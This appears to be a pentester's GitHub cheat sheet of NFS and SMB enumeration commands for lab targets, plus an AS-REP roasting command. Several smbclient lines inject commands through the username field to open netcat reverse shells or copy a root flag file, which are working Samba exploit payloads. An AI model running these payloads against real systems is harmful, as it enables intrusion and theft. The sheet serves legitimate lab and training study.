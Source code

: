 https://github.com/absolomb/Pentesting/blob/master/guides/Initial%20Enumeration.md
### nfs
```
nfs-ls #List NFS exports and check permissions
nfs-showmount #Like showmount -e
showmount -e 10.10.10.180
nfs-statfs #Disk statistics and info from NFS share
mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/new_back -o nolock

```

#### smbmap
• Name:
• Version:
• Domain/workgroup name:
• Domain-sid:
• Allows unauthenticated login:

```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse INSERTIPADDRESS -p 445,139

enum4linux -a INSERTIPADDRESS
rpcclient -U "" INSERTIPADDRESS
	-c options
	    srvinfo
enumdomusers
getdompwinfo
querydominfo
netshareenum
netshareenumall
smbclient -L INSERTIPADDRESS
smbclient //INSERTIPADDRESS/tmp
mask ""
recurse ON
prompt OFF
mget *


smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
smbclient //INSERTIPADDRESS/ipc$ -U john 
nmblookup -A INSERTIPADDRESS
smbmap -u null -p "" -H 10.10.10.134 -P 445 -R             
```
https://fareedfauzi.gitbook.io/oscp-notes/services-enumeration/smb
https://hackmag.com/security/htb-kerberos/
![image](https://user-images.githubusercontent.com/9059079/118906570-0031fa00-b8ec-11eb-83e5-47f90fca76ca.png)

![image](https://user-images.githubusercontent.com/9059079/119067201-88c59e80-b9af-11eb-9f1a-54bc5618d4ee.png)

![image](https://user-images.githubusercontent.com/9059079/119919265-136e4680-bf38-11eb-8357-d3ecbaf7b539.png)

smbmap -H 10.129.135.61 -P 445 -u null -p "" -R


  smbmap -H "10.10.185.43" | tee "recon/smbmap_10.10.185.43.txt"    
  smbmap -H "10.10.185.43" -u milesdyson -p ')s{A&2Z=F^n_E.B`'
  smbmap -u null -p "" -H 10.10.83.190  -P 445 -R 
  
  `smbclient \\\\10.10.104.121\\nt4wrksv`
  .smb: \> put pwn.exe                                                                                                                                       │        dr--r--r--   ```
  ![image](https://user-images.githubusercontent.com/9059079/119594287-7da4b100-bda9-11eb-831c-aa0ef569ccb8.png)
  
```

```
![image](https://user-images.githubusercontent.com/9059079/119918467-870f5400-bf36-11eb-819b-870c0efd2487.png)
![image](https://user-images.githubusercontent.com/9059079/119918545-a9a16d00-bf36-11eb-9e9f-5b5b6cacd5cb.png)

  ```
#### smbclient
  smbclient -L 10.10.10.134

  smbclient --user=milesdyson //10.10.185.43/milesdyson 

  smbclient -L "//10.10.185.43/" -U "guest"%| tee "recon/smbclient_10.10.185.43.txt"              
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
  smbclient -L x.x.x.x
  
  smbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodor
  
  smbclient //10.10.100.49/anonymous
  smbclient //10.10.10.40/Users -U anonymous --no-pass
  enum4linux -a ip
  
  
  
  
  client -U "" -N x.x.x.x  #Anonymous bind using rpcclient / Null connect
  
  smbclient //MOUNT/share #Connect to SMB share

  smbclient -U "/=&#92;&#96;nohup nc -e /bin/sh LHOST LPORT&#92;&#96;" -N -I ip //LAME/tmp

  nmap -T4 -sS -sC -Pn -A --script smb-vuln* ip
  
  smbclient //ip/tmp
  logon "./=`nohup nc -e /bin/sh LHOST LPORT`"

  smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp

  smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp
  
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.100.49


mount
  mount ip:/vol/share /mnt/nfs  -nolock
  
  mount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifs
  
  mount -t cifs //x.x.x.x/share /mnt
  
  mount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mnt
  
#### Mounting File Share
  showmount -e IPADDR
  sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other

# Port 111 - Rpcbind
	rpcinfo -p INSERTIPADDRESS

# Port 123-NTP
	ntp-info and ntp-monlist
	Check ntpd version for exploits
# Port 139/445 - SMB
	• Name:
	• Version:
	• Domain/workgroup name:
	• Domain-sid:
	• Allows unauthenticated login:
```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445
```
```	
enum4linux -a INSERTIPADDRESS
rpcclient -U "" -N INSERTIPADDRESS		-c options
srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
    smbclient //INSERTIPADDRESS/ipc$ -U john 
	nmblookup -A INSERTIPADDRESS
#Admin acount
rpcclient $> enumdomgroups

rpcclient $> querygroup 0x200          
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4            
```  
```
GetNPUsers.py -format john -no-pass -k -usersfile users -dc-ip 10.10.10.161 HTB.LOCAL/
```
